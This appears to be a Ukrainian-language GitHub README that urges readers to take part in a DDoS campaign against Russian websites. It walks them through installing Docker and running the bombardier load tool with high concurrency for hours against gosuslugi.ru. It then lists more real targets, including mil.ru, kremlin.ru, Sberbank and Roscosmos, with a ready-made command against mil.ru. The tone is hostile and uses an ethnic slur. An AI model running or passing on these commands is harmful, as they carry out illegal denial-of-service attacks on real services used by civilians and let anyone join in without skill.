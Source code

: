 # Валимо русню РАЗОМ!!! 
## Якщо не можете фізично, то можете інформаційно! Внизу кроки для організації DDoS-атаки з вашого комп'ютера.  

1. Завантажуємо Docker та встановлюємо на свій комп'ютер:  
`Windows`: https://docs.docker.com/desktop/windows/install  
`MacOS`: https://docs.docker.com/desktop/mac/install  
Важливо відкрити після цього програму `Docker`. Якщо після відкриття з'являється помилка з текстом `WSL 2 installation is incomplete` завантажуємо та встановлюємо драйвер тут: https://wslstorestorage.blob.core.windows.net/wslblob/wsl_update_x64.msi  
Після цього повинно працювати. Якщо просить перезавантажити комп'ютер - робимо це.

2. Відкриваємо консоль:  
`Windows`: комбінація клавіш `win + r`. В полі `Відкрити:` пишемо `cmd`. Жмакаємо `Enter`.  
`MacOS`: комбінація клавіш `Command(⌘) + пробіл` (інколи `Ctrl + пробіл`). В поле пошуку вводимо `terminal`. Жмакаємо `Enter`.  
Повинно появитися чорне вікно з мигаючим курсором.

3. В консолі вписуємо наступну команду:
```
docker run --rm -it alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
Інформація по параметрах команди:  
`-c 1000` - скільки буде відбуватися одночасно запитів на вказане посилання. Не потрібно вписувати дуже великі числа. Все залежить від потужностей вашого комп'ютера. Але можете поексперементувати і вказати більше або менше ніж 1000.  
`-d 3600s` - час в секундах, протягом якого будуть відбуватися запити. В команді вказано час на 1 годину, але можна поставити більше. Час вказувати в секундах, після кількості секунд дописати букву `s`.  
Жмакаємо `Enter`. 

4. Насолоджуємся і уявляємо як русня бігає в офісі роскомнадзору і дує на свої сервера, щоб вони не загорілись.

P. S.: дані кроки можна повторювати багато разів для різних сайтів. Просто змінюємо посилання на одне з наступних:  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://scrf.gov.ru  
https://mil.ru  
https://www.roscosmos.ru  
https://www.sberbank.ru  
http://kremlin.ru  


Наприклад:
```
docker run --rm -it alpine/bombardier -c 700 -d 7200s -l https://mil.ru
```
